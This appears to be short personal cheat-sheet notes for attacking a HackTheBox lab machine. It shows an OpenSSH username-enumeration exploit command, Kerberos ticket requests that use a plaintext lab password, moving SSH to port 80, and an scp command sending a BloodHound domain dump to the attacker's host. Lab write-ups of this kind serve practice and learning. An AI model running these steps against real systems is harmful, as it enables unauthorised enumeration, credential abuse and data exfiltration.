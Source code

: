 ### Version < 7.7
```
python sshUsernameEnumExploit.py <IP> -w <wordlist>
```

### Login via kerberos
```
/etc/hosts(顺序必须一摸一样):
10.10.11.60     frizzdc.frizz.htb frizz.htb


/etc/krb5.conf:
[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
 
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true
 
[realms]
    FRIZZ.HTB = {
        kdc = FRIZZDC.FRIZZ.HTB
        admin_server = FRIZZDC.FRIZZ.HTB
        default_domain = FRIZZ.HTB
    }

kinit f.frizzle@FRIZZ.HTB; klist or impacket-getTGT -dc-ip 10.10.11.60 frizz.htb/M.SchoolBus:'!suBcig@MehTed!R' export KRB5CCNAME=f.frizzle.ccache klist

ssh f.frizzle@frizz.htb -K 
```
Solving Permission denied (gssapi-with-mic,keyboard-interactive).
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
Open a new terminal
```
### Change ssh port from 22 to 80
```
sudo vim /etc/ssh/sshd_config
Change the port from 22 to 80:
sudo service ssh restart
```
### SCP file transfer
```
scp -P 80 20250425032703_BloodHound.zip kali@10.10.14.3:/home/kali/Desktop/20250425032703_BloodHound.zip
```
### Privare Key
Check
```
openssl rsa -in pkcs11.txt -check
```
